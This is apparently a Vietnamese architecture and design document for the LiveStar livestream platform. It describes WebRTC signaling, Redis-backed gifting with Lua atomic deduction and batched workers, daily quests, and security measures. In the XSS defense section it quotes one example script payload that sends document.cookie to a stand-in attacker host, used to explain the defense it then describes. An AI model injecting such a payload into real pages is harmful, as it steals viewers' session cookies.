

# 🏗️ Tài liệu Kiến trúc & Thiết kế Kỹ thuật LiveStar

Tài liệu này đi sâu vào phân tích các quyết định thiết kế kiến trúc, các mẫu thiết kế (design patterns) và cơ chế vận hành nội bộ của hệ thống **Livestream Stars (LiveStar)**. Tài liệu dành cho các kỹ sư phát triển backend và lập trình viên muốn hiểu sâu về cách hệ thống hoạt động dưới hạ tầng.

---

## 📡 1. Kiến trúc Thời gian thực & WebRTC (Real-time & Streaming)

Hệ thống LiveStar sử dụng kết hợp giữa **WebRTC** để truyền tải video độ trễ thấp và **WebSockets** để truyền tải các sự kiện tương tác (chat, gift, PK, rương báu).



### Cơ chế Signaling của WebRTC (P2P Streaming)
WebRTC cho phép truyền dữ liệu video/audio trực tiếp giữa các trình duyệt (Peer-to-Peer) mà không cần đi qua máy chủ trung gian, giúp giảm thiểu chi phí băng thông đáng kể. Tuy nhiên, hai trình duyệt không thể tự tìm thấy nhau nếu không có một server trung gian làm nhiệm vụ dẫn đường (**Signaling Server**).
WebSocket Gateway (`server.js`) đóng vai trò là Signaling Server này:
1.  **Offer**: Khi Viewer gia nhập phòng, Streamer tạo một cấu hình mã hóa video (SDP Offer) và gửi lên WebSocket Server.
2.  **Relay Offer**: WebSocket Server chuyển tiếp SDP Offer này đích danh đến Viewer tương ứng thông qua `socket.send()`.
3.  **Answer**: Viewer nhận Offer, tạo cấu hình đồng ý (SDP Answer) và gửi ngược lại Streamer qua server.
4.  **ICE Candidates**: Cả hai bên trao đổi thông tin cấu hình mạng (IP, Port) để bắt tay trực tiếp.
5.  **P2P Connection Established**: Luồng video được truyền trực tiếp giữa hai máy.

### Thiết kế WebSocket Gateway (`server.js`) kết hợp Redis Pub/Sub
Để đảm bảo khả năng mở rộng (Scale Out), WebSocket Server được thiết kế tách biệt khỏi Next.js app server và chạy độc lập trên cổng `3001`.
*   **Tránh tắt nghẽn Event Loop**: WebSocket Gateway chỉ làm nhiệm vụ nhận dạng kết nối, định tuyến tin nhắn (chat, WebRTC signaling) và đẩy các tác vụ nặng (như tính toán tặng sao) sang REST API xử lý.
*   **Redis Pub/Sub**: WebSocket Server đăng ký (Subscribe) các kênh Redis như `room:*:gifts` và `room:*:predictions`. Khi Worker chạy ngầm hoàn thành việc ghi nhận giao dịch vào DB, nó sẽ Publish sự kiện lên Redis. Bằng cách này, nếu ta chạy nhiều Node WebSocket Gateway dưới một Load Balancer, các Node đều nhận được sự kiện đồng bộ từ Redis để gửi tới các Client đang kết nối vào Node đó.

---

## ⚡ 2. Công cụ xử lý Tặng quà chịu tải cao (High-Concurrency Gifting Engine)

Hệ thống tặng quà (Gifting) là tính năng cốt lõi và cũng là thành phần chịu tải nặng nhất của dự án. Khi một phòng live có hàng chục ngàn người xem cùng tặng sao dồn dập, cơ sở dữ liệu sẽ dễ dàng bị nghẽn (DB Bottleneck) nếu xử lý đồng bộ.

Dự án áp dụng mô hình kiến trúc **"Accept Fast, Process Async"** (Nhận nhanh, Xử lý ngầm) để giải quyết bài toán này:

```text
+--------+       POST /api/gifts       +---------------+       Redis Lua Script       +-------------------+
| Viewer | --------------------------> | Next.js API   | ---------------------------> | Atomic check &    |
| Client | <-------------------------- |  REST Server  | <--------------------------- | deduct coins      |
+--------+      202 Accepted (~5ms)    +---------------+    Optimistic Bal (~1ms)     +-------------------+
                                               |
                                               v
                                       +---------------+
                                       |  Bull Queue   | (Push Job)
                                       +---------------+
                                               |
                                               v (Fetch Jobs in batch)
                                       +-------------------+
                                       | Gift Worker       | (Gom nhóm và flush trong 200ms)
                                       +-------------------+
                                               |
                                               v (Prisma Transaction)
                                       +-------------------+
                                       | PostgreSQL DB     | (Ghi nhận lịch sử, cập nhật User, Goal, PK)
                                       +-------------------+
```

### Bước 1: Rate Limiting & Chống Spam cấp Redis
Để tránh việc người dùng sử dụng tool spam liên tục hàng ngàn request, API thực hiện kiểm tra rate limit ở hai cấp độ:
*   **User Level**: Tối đa `5` lượt tặng quà trong mỗi `5000ms` cho mỗi người dùng trong một phòng.
*   **Room Level**: Tối đa `1000` lượt tặng quà mỗi giây cho toàn phòng nhằm ngăn chặn cơn bão phát tán sự kiện (broadcast storm) làm nghẽn băng thông WebSocket.
*   *Công nghệ*: Sử dụng Redis script tăng counter với khóa TTL để phản hồi cực nhanh (~1ms).

### Bước 2: Trừ sao nguyên tử (Atomic Coin Deduction) với Redis Lua Script
Để giải quyết triệt để lỗi **Race Condition (Chi tiêu kép / Double-Spending)** khi hai request gửi lên cùng lúc, hệ thống sử dụng một script Lua chạy trực tiếp trong Redis engine. Vì Redis chạy đơn luồng (single-threaded), Lua script sẽ được thực hiện một cách **NGUYÊN TỬ (ATOMIC)**, không thể bị ngắt quãng.
Đoạn mã Lua script trong [rateLimiter.ts](file:///Users/macintoshhd/Desktop/livestream-stars/src/backend/shared/middleware/rateLimiter.ts#L25-L35) hoạt động như sau:
```lua
local balance = tonumber(redis.call('GET', KEYS[1]))
if balance == nil then
  return -1 -- Cache miss, cần load từ PostgreSQL
end
if balance < tonumber(ARGV[1]) then
  return -2 -- Số dư không đủ
end
redis.call('DECRBY', KEYS[1], ARGV[1])
return balance - tonumber(ARGV[1]) -- Trả về số dư mới sau khi trừ
```
Nếu xảy ra tình trạng chưa có dữ liệu ví sao trong Redis (Cache Miss), API sẽ truy vấn DB một lần duy nhất, nạp dữ liệu vào Redis (**Warm Cache**) với TTL 10 phút rồi thực hiện lại lệnh trừ sao.

### Bước 3: Đệm hàng đợi Bull Queue
Sau khi trừ sao thành công trong Redis, API tạo một **Idempotency Key** dạng UUID v4 để tránh việc xử lý trùng lặp và đẩy giao dịch vào hàng đợi **Bull Queue** (backed by Redis) dưới dạng một job. API lập tức trả về mã HTTP `202 Accepted` cùng số dư ví dự tính (optimistic balance) cho client. Toàn bộ quá trình HTTP request chỉ mất từ **5ms - 15ms**, giải phóng kết nối cho Web Server.

### Bước 4: Gom lô & Ghi dữ liệu hàng loạt (Batch Write) tại Worker
Tiến trình ngầm [gift.worker.ts](file:///Users/macintoshhd/Desktop/livestream-stars/src/backend/modules/gift/gift.worker.ts) lắng nghe hàng đợi và áp dụng bộ đệm (Buffer):
*   Khi có jobs mới, worker không ghi DB ngay mà đẩy vào một buffer nội bộ.
*   Worker sẽ đợi tối đa **200ms** (`GIFT_BATCH_FLUSH_MS`) hoặc cho đến khi kích thước buffer đạt **100 jobs** (`MAX_BATCH_SIZE`) rồi mới tiến hành "Flush".
*   **Gom nhóm (Aggregation)**: Worker gộp các thay đổi số dư lại. Ví dụ trong 200ms có 50 người tặng cho Streamer Alice tổng cộng 5,000 sao, worker chỉ chạy đúng **1 câu lệnh UPDATE** cộng 5,000 sao cho Alice, thay vì chạy 50 câu lệnh UPDATE riêng lẻ.
*   **Ghi hàng loạt**: Sử dụng lệnh `createMany` của Prisma để ghi lịch sử giao dịch `GiftTransaction` và các dòng chat `Comment` đặc biệt trong một lần truy vấn duy nhất.

### Bước 5: Giao dịch Cơ sở dữ liệu (Prisma $transaction)
Toàn bộ các cập nhật sau khi gom nhóm được thực hiện bên trong một Prisma Transaction để đảm bảo tính toàn vẹn dữ liệu:
1.  Trừ số dư sao và cộng tổng sao đã tặng của các người gửi (Senders).
2.  Cộng số dư sao và tổng sao đã nhận của các người nhận (Streamers).
3.  Cộng sao tích lũy vào phòng Stream.
4.  Cập nhật tiến trình của các Mục tiêu Stream (StreamGoal) đang hoạt động.
5.  Cập nhật điểm số của các trận PK Battles đang diễn ra.
6.  Ghi nhận lịch sử `GiftTransaction` và tạo bình luận chat tặng quà.

### Bước 6: Cơ chế hoàn tiền khi lỗi (Refund Mechanism)
Nếu toàn bộ giao dịch Prisma Transaction bị thất bại do lỗi phần cứng hoặc xung đột DB khóa, worker sẽ kích hoạt cơ chế xử lý lỗi:
*   **Fallback xử lý đơn lẻ**: Tự động chuyển sang xử lý từng job một để cô lập job bị lỗi và hoàn tất các job hợp lệ khác.
*   **Hoàn tiền (Refund)**: Nếu một job bị thất bại hoàn toàn (ví dụ: tài khoản người nhận bị khóa giữa chừng), sự kiện `failed` của Bull Queue sẽ được kích hoạt. Worker sẽ tự động thực hiện hoàn lại số sao đã trừ tạm thời trong Redis cho người gửi bằng lệnh `redis.incrby(key, starAmount)`.

---

## 🎯 3. Cơ chế Nhiệm vụ Hàng ngày (Daily Quests System)

Hệ thống nhiệm vụ giúp kích thích người dùng tương tác mỗi ngày. Module này được đóng gói trong [quest.service.ts](file:///Users/macintoshhd/Desktop/livestream-stars/src/backend/modules/quest/quest.service.ts).

### 1. Định nghĩa Nhiệm vụ (Quest Definitions)
Bảng `QuestDefinition` định nghĩa các loại nhiệm vụ tĩnh trong hệ thống:
*   `CHECKIN`: Điểm danh hàng ngày.
*   `WATCH_5` / `WATCH_15`: Xem stream liên tục 5/15 phút.
*   `CHAT_3`: Nhắn 3 tin chat trong các phòng live.
*   `GIFT_1`: Tặng sao cho bất kỳ Streamer nào.

### 2. Khởi tạo Nhiệm vụ theo Ngày (Lazy Initialization)
Để tránh việc tạo hàng triệu bản ghi nhiệm vụ trống cho tất cả người dùng lúc nửa đêm làm quá tải DB, hệ thống sử dụng cơ chế **Lazy Initialization**:
*   Khi người dùng đăng nhập hoặc truy cập trang chủ, hệ thống gọi `getOrCreateTodayQuests(userId)`.
*   Hệ thống tính toán chuỗi ngày hôm nay `YYYY-MM-DD` theo múi giờ Việt Nam (`Asia/Ho_Chi_Minh`).
*   Hệ thống kiểm tra bảng `UserQuest` xem đã có bản ghi của hôm nay chưa. Nếu chưa có, nó sẽ tự động tạo các bản ghi nhiệm vụ mới dựa trên các định nghĩa đang hoạt động (`isActive = true`).

### 3. Tích lũy tiến trình phi tập trung (Decentralized Progress Increment)
Tiến trình nhiệm vụ được cập nhật tự động khi có các sự kiện tương ứng xảy ra:
*   Khi có tin chat hợp lệ được gửi đi -> Gọi `QuestService.incrementProgress(userId, "CHAT_3")`.
*   Khi Worker xử lý giao dịch tặng sao thành công -> Gọi `QuestService.incrementProgress(userId, "GIFT_1", 1, tx)` (Truyền client giao dịch `tx` để ghi nhận an toàn).
*   Khi xem stream, client gửi heartbeat định kỳ để cập nhật thời gian xem (`WATCH_5`, `WATCH_15`).

---

## 🛡️ 4. Các giải pháp Bảo mật & Độ tin cậy (Security & Reliability)

### 1. Connection Pooling & Tránh rò rỉ kết nối trong Next.js Development
Trong môi trường phát triển Next.js, mã nguồn được nạp lại liên tục mỗi khi lưu file (Hot Reloading). Nếu khởi tạo kết nối DB trực tiếp, hàng chục client kết nối mới sẽ được tạo ra sau vài phút, gây sập PostgreSQL.
Dự án sử dụng cơ chế Singleton lưu trữ instance trong `globalThis`:
```typescript
const globalForPrisma = globalThis as unknown as {
  prisma: PrismaClient | undefined;
};
// ...
if (process.env.NODE_ENV === "production") {
  prisma = new PrismaClient({ adapter });
} else {
  if (!globalForPrisma.prisma) {
    globalForPrisma.prisma = new PrismaClient({ adapter });
  }
  prisma = globalForPrisma.prisma;
}
```
Đồng thời, hệ thống sử dụng thư viện `@prisma/adapter-pg` kết hợp với `pg.Pool` để quản lý bể kết nối (connection pool) hiệu quả, tự động tái sử dụng các kết nối cũ thay vì đóng/mở TCP liên tục.

### 2. Chống lỗi chèn mã độc Chat (XSS Defense)
Nếu kẻ tấn công gửi tin nhắn chat chứa mã HTML độc hại như `<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>`, tin nhắn này có thể được phát tới hàng ngàn viewer khác và đánh cắp thông tin đăng nhập của họ.
Hệ thống phòng chống XSS bằng 2 lớp bảo vệ:
1.  **Backend Sanitization (Lọc dữ liệu tại máy chủ)**: Trong WebSocket Gateway `server.js`, mọi tin nhắn chat được lọc qua hàm replace để chuyển đổi các ký tự nguy hiểm thành các ký tự thực thể an toàn (HTML Entities):
    ```typescript
    const cleanText = payload.text
      .replace(/&/g, "&amp;")
      .replace(/</g, "&lt;")
      .replace(/>/g, "&gt;");
    ```
2.  **Frontend Render Safe (Hiển thị an toàn)**: Client hiển thị chat thông qua cơ chế render text mặc định của React `{text}`, tự động coi nội dung là chuỗi thuần (plaintext) chứ không thông dịch HTML. Tuyệt đối không sử dụng `dangerouslySetInnerHTML` cho nội dung chat.

---

## 📈 5. Quy trình xử lý một yêu cầu Tặng Sao (End-to-End Request Flow)

Để dễ hình dung sự phối hợp của các thành phần, dưới đây là quy trình chi tiết của một lượt tặng sao thành công:

1.  **Client (UI)**: Viewer Bob click nút tặng quà 100 sao cho Streamer Alice. Giao diện gửi request `POST /api/gifts`.
2.  **REST API (Next.js)**:
    *   Xác thực Session của Bob thông qua Cookie.
    *   Gọi Redis check rate limit cho tài khoản Bob (Nếu vượt quá -> trả về HTTP 429).
    *   Chạy script Lua trên Redis để trừ 100 sao từ key `gift:coins:Bob` (Nếu không đủ sao -> trả về HTTP 400).
    *   Nhận kết quả trừ sao thành công từ Redis, tạo Idempotency Key và đẩy Job vào Bull Queue.
    *   Trả về HTTP 202 kèm số dư mới (ví dụ: Bob còn 14,650 sao).
3.  **Client (UI)**: Nhận phản hồi HTTP 202, lập tức hiển thị ví sao của Bob giảm xuống 14,650 sao (trải nghiệm mượt mà không cảm nhận được độ trễ ghi DB).
4.  **Bull Worker (Background Process)**:
    *   Lấy job từ Redis queue.
    *   Chờ gom thêm các jobs khác trong 200ms.
    *   Chạy Prisma Transaction: Ghi nhận lịch sử `GiftTransaction`, trừ sao Bob trong PostgreSQL, cộng sao Alice trong PostgreSQL, cộng sao vào bảng Stream, cập nhật mục tiêu Goal.
    *   Publish sự kiện `gift-batch` lên kênh Redis Pub/Sub `room:alice-stream-id:gifts`.
5.  **WebSocket Gateway (`server.js`)**:
    *   Nhận sự kiện `gift-batch` từ Redis Pub/Sub.
    *   Broadcast chuỗi JSON sự kiện tới tất cả các kết nối WebSocket đang ở trong phòng của Alice.
6.  **Client (UI của mọi người xem trong phòng)**:
    *   Nhận sự kiện WebSocket.
    *   Bật hiệu ứng Canvas bắn sao lung linh trên màn hình.
    *   Cập nhật lại số sao hiển thị trên góc phòng stream của Alice.
